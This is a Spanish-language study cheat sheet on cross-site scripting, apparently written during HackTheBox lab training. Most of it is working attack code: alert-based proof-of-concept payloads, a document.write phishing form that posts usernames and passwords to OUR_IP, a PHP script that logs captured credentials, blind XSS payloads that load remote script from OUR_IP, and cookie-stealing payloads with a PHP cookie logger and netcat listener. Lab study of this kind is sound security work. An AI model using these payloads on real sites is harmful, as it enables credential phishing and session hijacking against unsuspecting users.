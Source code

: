 ## Poc
```html
<script>alert(window.origin)</script>
```

```html
<script>alert(document.cookie)</script>
```

Ez y no usar alert():

```
<script>print()</script>
```
cuando es DOM-based :
```html
<img src="" onerror=alert(window.origin)>
```


## login form injection
todo esto metido en la funcion document.write()
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

ANTES:
![[Pasted image 20250621202407.png]]
DESPUES:
![[Pasted image 20250621202449.png]]
 vemos que tenemos el formulario pero todavía está el formulario antiguo, por ende tenemos que borrar el antiguo formulario,para ello utilizaremos la función `document.getElementById().remove()` y para ver el ID lo veremos en el código html : 
 ```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

PAYLOAD FINAL:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Y para recibir las credenciales : 
```shell-session
bonack@htb[/htb]$ sudo nc -lvnp 80
```
alo usar netcat el us soluario que ponga las credenciales le saltará un error , si queremos algo mas realista insertaremos un codigo php que haga que le redirija a la página original de nuevo, el archivo sera `index.php` guardado en ``/tmp/tmpserver/`` . CODIGO:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

y luego : 

```shell-session
bonack@htb[/htb]$ mkdir /tmp/tmpserver
bonack@htb[/htb]$ cd /tmp/tmpserver
bonack@htb[/htb]$ vi index.php #at this step we wrote our index.php file
bonack@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
 luego las credenciales se guardarán en un archivo `creds.txt`


## Blind XSS

XSS a una pagina a la que no tenemos acceso

payloads:

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
 y hacer : 
```
 mkdir /tmp/tmpserver
 cd /tmp/tmpserver
 sudo php -S 0.0.0.0:80
```



###  Session Hijacking

solo si las cookies NO son HTTP only

payloads:

`
```javascript
<script>document.location='http://OUR_IP/index.php?c='+document.cookie</script>
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 
```


codigo para ordenar las cookies que encontremos(index.php) : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
